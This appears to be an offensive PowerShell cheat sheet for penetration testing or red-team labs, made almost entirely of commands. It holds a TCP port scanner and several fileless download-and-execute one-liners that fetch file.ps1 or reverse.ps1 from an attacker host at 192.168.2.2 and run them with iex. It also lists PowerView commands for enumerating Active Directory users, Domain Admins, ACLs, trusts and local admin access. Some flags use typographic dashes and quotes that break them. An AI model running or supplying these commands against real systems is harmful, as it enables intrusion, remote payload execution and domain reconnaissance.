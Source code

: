 ``` Ping with IP Powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null
```

```
1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}
```

```PowerShell in-memory Download and Execute

iex (iwr 'http://192.168.2.2/file.ps1')

--------------------------

$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1")
$read = $down.GetResponse()
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()

--------------------------

$file=New-Object -ComObject
Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.sen
d();iex $file.responseText

--------------------------

iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

--------------------------

$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘);
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

--------------------------

```


# Domain Enumerate

**Get current domain**
``` 

Get-NetDomain
Get-NetDomain –Domain cyberwarfare.corp

```
**Retrieve Current SID and Domain Controller**

```

Get-NetDomainController –Domain cyberwarfare.corp
Get-DomainSID

```
**Retrieve a list of users in the current domain**

```

Get-NetUser
Get-NetUser –UserName emp1

```
**Retrieve a list of computers in the current domain**

``` 

Get-NetComputer
Get-NetComputer – FullData
Get-NetComputer –OperatingSystem “Windows Server 2016 Standard”

```
**List all domain groups in the current domain**

```

Get-NetGroup
Get-NetGroup –FullData
Get-NetGroup –Domain cyberwarfare.corp

```
**Enumerate privilege domain group members and local administrators**

``` 
group members 

Get-NetGroupMember –GroupName “Domain Admins” -verbose
Get-NetLocalGroup –ComputerName DC-01 -ListGroups

```
**ACL Enumeration, get the ACLs associated with an entity**

```
Get-ObjectAcl -SamAccountName <Domain_User> –ResolveGUIDs

```
** Unique and interesting ACL Scanning**

```

Invoke-ACLScanner –ResolveGUIDs

```
**Enumerate Domain Trusts**

```

Get-NetDomainTrust
Get-NetDomainTrust –Domain cyberwarfare.corp

```
**Enumerate all domain in a Forest**

```

Get-NetForestDomain –Verbose
Get-NetForest -Verbose

```
**Find computer sessions where current user has local admin access**

```

Find-LocalAdminAccess -Verbose

```


